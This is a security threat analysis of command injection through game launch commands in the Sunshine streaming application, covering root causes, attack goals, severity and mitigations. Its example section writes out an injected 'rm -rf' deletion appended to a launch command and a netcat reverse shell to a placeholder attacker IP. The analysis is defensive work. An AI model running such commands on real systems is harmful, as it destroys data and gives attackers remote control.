 ## Deep Dive Analysis: Command Injection via Game Launching in Sunshine

This document provides a detailed analysis of the "Command Injection via Game Launching" threat identified in the threat model for the Sunshine application. We will delve into the technical aspects of this threat, explore potential attack vectors, and expand on the proposed mitigation strategies.

**1. Threat Overview:**

The core of this threat lies in the ability of an attacker to inject and execute arbitrary commands on the host system by manipulating the game launch commands within Sunshine's configuration. This leverages the fact that Sunshine, to launch games, needs to execute commands on the underlying operating system. If the application doesn't properly sanitize or validate user-provided input for these commands, it creates a significant vulnerability.

**2. Detailed Breakdown of the Threat:**

* **Root Cause:** The fundamental issue is the lack of secure handling of user-provided data used in system calls. Specifically, when Sunshine retrieves and utilizes the configured game launch commands, it likely uses a function that directly executes these strings as operating system commands (e.g., `system()`, `exec()`, `subprocess.Popen()` in Python, etc.).
* **Attacker's Goal:** The attacker aims to leverage this vulnerability to gain unauthorized access and control over the host system. This could involve:
    * **Gaining a persistent foothold:** Installing backdoors or creating new user accounts.
    * **Data exfiltration:** Stealing sensitive information stored on the machine.
    * **System disruption:** Causing denial of service by terminating critical processes or consuming system resources.
    * **Lateral movement:** Using the compromised machine as a stepping stone to attack other systems on the network.
    * **Malware installation:** Deploying ransomware, keyloggers, or other malicious software.
* **Entry Points:** The attacker needs to be able to modify Sunshine's configuration. This can happen through:
    * **Compromised Credentials:** If an attacker gains access to user accounts with administrative privileges within Sunshine, they can directly modify the game launch settings through the application's interface.
    * **Configuration Vulnerability within Sunshine:** This could be a separate vulnerability allowing unauthorized modification of the configuration files directly (e.g., path traversal, insecure API endpoint, etc.).
    * **Local Access:** If the attacker has physical or remote access to the machine running Sunshine, they might be able to directly modify the configuration files if they are not properly protected.

**3. Deeper Look at the Affected Components:**

* **Game Launching Module:** This module is responsible for taking the configured game launch command and executing it. The vulnerability likely resides in the function within this module that performs the actual system call.
* **Configuration Handling:** This component is responsible for reading, writing, and storing the application's configuration, including the game launch commands. Vulnerabilities here can indirectly enable command injection by allowing attackers to inject malicious commands into the configuration. This could involve:
    * **Insecure Deserialization:** If the configuration is stored in a serialized format, vulnerabilities in the deserialization process could allow code execution.
    * **Lack of Input Validation during Configuration Saving:**  If the application doesn't validate the game launch command when it's saved, malicious commands can be stored and later executed.

**4. Elaborating on the Risk Severity (Critical):**

The "Critical" severity rating is justified due to the following factors:

* **Direct Code Execution:** The vulnerability allows for direct and unrestricted execution of arbitrary commands on the host system. This grants the attacker significant control.
* **Privilege Escalation Potential:** The commands are executed with the privileges of the Sunshine process. If Sunshine runs with elevated privileges (e.g., as a service or with user-level administrative rights), the impact is significantly amplified.
* **Ease of Exploitation (Potentially):**  If the configuration interface is easily accessible or if a configuration vulnerability exists, exploiting this issue might be relatively straightforward for an attacker.
* **Wide Range of Impacts:** As mentioned earlier, successful exploitation can lead to a multitude of severe consequences, including complete system compromise.

**5. Expanding on Mitigation Strategies:**

The provided mitigation strategies are a good starting point. Let's delve deeper and add more specific recommendations:

**5.1. Developer-Focused Mitigations (Within Sunshine Codebase):**

* **Strict Input Validation and Sanitization:**
    * **Whitelisting:** Instead of blacklisting potentially dangerous characters, implement a strict whitelist of allowed characters and patterns for game launch parameters. This is generally more secure.
    * **Command Parsing:**  Instead of treating the entire string as a command, parse it into individual components (executable path, arguments). Validate each component against expected values.
    * **Path Sanitization:**  Ensure that any file paths provided are valid and within expected directories. Prevent path traversal vulnerabilities (e.g., using `os.path.abspath()` and `os.path.realpath()` in Python).
    * **Argument Sanitization:**  Carefully sanitize arguments to prevent injection of unintended commands or options.
* **Parameterized Commands or Safe List of Allowed Executables and Arguments:**
    * **Parameterized Execution:** Use functions that allow passing arguments as separate parameters rather than constructing a single command string (e.g., `subprocess.Popen([executable, arg1, arg2])` in Python). This prevents the shell from interpreting special characters in the arguments.
    * **Restricted Executable List:** Maintain a safe list of allowed game executables. Only allow execution of executables explicitly included in this list.
    * **Argument Templates:** Define templates for valid argument structures for each allowed executable. This allows for more granular control over what can be executed.
* **Proper Authorization Checks:**
    * **Role-Based Access Control (RBAC):** Implement RBAC within Sunshine to restrict who can modify game launch configurations. Only authorized users should have the necessary permissions.
    * **Authentication and Authorization for Configuration Changes:**  Require proper authentication and authorization before any changes to the game launch settings are applied.
    * **Audit Logging:** Log all changes to the game launch configurations, including the user who made the change and the timestamp. This helps in identifying and investigating potential attacks.
* **Principle of Least Privilege:** Ensure the Sunshine process runs with the minimum necessary privileges required for its operation. Avoid running it with root or administrator privileges if possible.
* **Security Audits and Code Reviews:** Regularly conduct security audits and code reviews, specifically focusing on the game launching and configuration handling modules.
* **Static and Dynamic Analysis:** Utilize static analysis tools to identify potential vulnerabilities in the codebase and dynamic analysis tools to test the application's behavior under different attack scenarios.

**5.2. Operational Mitigations (Deployment and Configuration):**

* **Secure Configuration Storage:** Protect the configuration files with appropriate file system permissions. Ensure only authorized users can read and write to these files.
* **Regular Security Updates:** Keep Sunshine and the underlying operating system up-to-date with the latest security patches.
* **Network Segmentation:** Isolate the machine running Sunshine on a separate network segment to limit the potential impact of a compromise.
* **Input Validation on the UI:** Implement input validation on the user interface to prevent users from entering obviously malicious commands. While this is not a foolproof solution, it can help prevent accidental or unsophisticated attacks.
* **User Education:** Educate users about the risks of modifying game launch configurations with untrusted sources.

**5.3. Architectural Considerations:**

* **Sandboxing/Containerization:** Consider running Sunshine within a sandbox or container environment to limit the impact of a successful command injection attack. This can restrict the attacker's ability to access the host system.
* **Separation of Privileges:** If possible, separate the game launching functionality into a separate process with limited privileges. This would minimize the impact if that specific process is compromised.

**6. Example Scenario and Exploitation:**

Imagine a user with compromised credentials logs into Sunshine. They navigate to the game settings for "My Favorite Game." The existing launch command might be:

```
/path/to/game/executable -fullscreen
```

The attacker could modify this to:

```
/path/to/game/executable -fullscreen ; rm -rf /important/data
```

When Sunshine attempts to launch "My Favorite Game," it will execute both the game and the malicious `rm` command, potentially deleting critical data.

Another example could involve replacing the executable entirely:

```
/bin/bash -c "nc -e /bin/bash attacker_ip 4444"
```

This would establish a reverse shell connection to the attacker's machine when the game is launched.

**7. Recommendations for the Development Team:**

* **Prioritize this vulnerability:** Due to its critical severity, addressing this vulnerability should be a top priority.
* **Implement robust input validation and sanitization:** This is the most crucial step in mitigating this threat.
* **Adopt parameterized commands:**  Switching to parameterized execution is highly recommended.
* **Implement strong authorization controls:** Restrict access to configuration settings.
* **Conduct thorough security testing:**  Specifically test the game launching functionality for command injection vulnerabilities.
* **Provide secure configuration options:**  Consider alternative, more secure ways to configure game launching, if feasible.

**8. Conclusion:**

The "Command Injection via Game Launching" threat poses a significant risk to the Sunshine application and the systems it runs on. A proactive and comprehensive approach to mitigation, focusing on secure coding practices and robust security controls, is essential to protect users from potential attacks. The development team should prioritize addressing this vulnerability and implement the recommended mitigation strategies to ensure the security and integrity of the application and its users' systems.
